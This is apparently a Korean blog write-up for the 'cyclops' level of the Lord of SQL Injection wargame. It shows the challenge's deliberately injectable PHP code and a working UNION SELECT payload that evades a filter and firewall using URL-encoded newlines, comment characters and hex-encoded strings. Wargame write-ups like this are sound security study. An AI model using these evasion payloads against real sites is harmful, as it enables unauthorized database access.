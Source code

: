 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - cyclops 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 첫 번째 문제 업데이트의 마지막 문제인 `cyclops` 이다.  

이번 문제는 단순히 `admin`으로 로그인을 하는 문제가 아니었다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id,pw from prob_cyclops where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_cyclops where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['id'] === "first") && ($result['pw'] === "second")) solve("cyclops");//must use union select
  highlight_file(__FILE__);
?>
```

이번에는 `id`가 `first`, `pw`가 `second`여야 한다.  

주석에 `must use union select`라고 적혀있는 것으로 보아 `union select 'first', 'second'` 같은 형태로 만들면 될 것 같다.  

그래서 일단 아래처럼 시도 해 보았다.  

```
?id=1' union select 'first', 'second'#&pw=a
```

그럼 완성되는 쿼리는 아래와 같을 것이다.  

```
select id,pw from prob_cyclops where id='1' union select 'first', 'second'#' and pw='a'
```

`'and pw='a'`는 주석처리 되어 실행되지 않기 때문에 결과적으로 `union select 'first', 'second`만 실행되며 `fist`, `second`만 추출 될 것이라고 생각했다.  

그런데 저렇게 값을 넣으니까 방화벽에 잡혔다 ㅠㅠ  

그렇게 호락호락한 문제가 아니었다 ㅠㅠ  

그 뒤로 이것저것 시도 해 보다가 `개행 문자(%0a%0d)`를 넣어주면 방화벽에 잡히지 않는다는 것을 찾을 수 있었다.  

또한 `select 'first', 'second'` 처럼 썼더니 또 방화벽에 걸려서 `select 0x6669727374, 0x7365636f6e64''`를 사용했다.  

`0x6669727374`는 `first`이고, `0x7365636f6e64`는 `second`이며 뒤의 `''`는 아무 출력도 하지 않을 것이다.  

최종적으로 입력한 값은 아래와 같다.  

```
?id=1'%23&pw=%0a%0dunion %23%0a%0ddistinct select 0x6669727374, 0x7365636f6e64''%23
```

`%23(#)`과 `%0a%0d(개행문자)`는 그래도 `URL Encoding` 해서 넘겨주었다.  

그러면 완성되는 쿼리는 아래와 같다.  

```
select id,pw from prob_cyclops where id='1'#' and pw=' 
union # 
distinct select 0x6669727374, 0x7365636f6e64''#'
```

첫 줄의 `id='1'#' and pw='`에서 `id='1'` 뒤의 값은 `#` 때문에 주석처리 된다.  

개행 된 쿼리를 보고싶다면, 개행문자를 입력한 후 `Ctrl + u`를 통해 `소스보기`를 하면 아래와 같이 확인할 수 있다.  

```html
<hr>query : <strong>select id,pw from prob_cyclops where id='1'#' and pw='

union #

distinct select 0x6669727374, 0x7365636f6e64''#'</strong><hr>
```

어쨌든 이를 통해 문제를 풀 수 있었다.  

```php
---------------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_cyclops where id='1'#' and pw=' union # distinct select 0x6669727374, 0x7365636f6e64''#'
---------------------------------------------------------------------------------------------------------------------------------

CYCLOPS Clear!
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_cyclops where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['id'] === "first") && ($result['pw'] === "second")) solve("cyclops");//must use union select
  highlight_file(__FILE__);
?>
```

`CYCLOPS Clear!`